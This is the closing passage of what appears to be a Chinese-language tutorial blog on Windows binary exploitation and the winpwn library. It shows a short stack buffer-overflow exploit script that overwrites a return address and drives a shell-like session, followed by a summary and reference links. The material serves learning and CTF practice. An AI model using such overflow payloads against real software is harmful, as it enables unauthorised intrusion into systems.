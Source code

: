```
    r = remote()
else:
    r = process(file_name)

payload  = 'a' * (0x14 + 4)
payload += p32(0x401000)
r.sendline(payload)
sleep(1)
r.sendline('calc')

r.interactive()
```

## 总结

这篇初探文章只是简单的了解了windows下的保护机制，和winpwn的一个用法，后续会学习如何调试，如何绕过这些保护，包括如何用pwntools来写exp

## Reference

http://blog.chinaunix.net/uid-24917554-id-3492618.html

https://www.jianshu.com/p/4f89f810d98e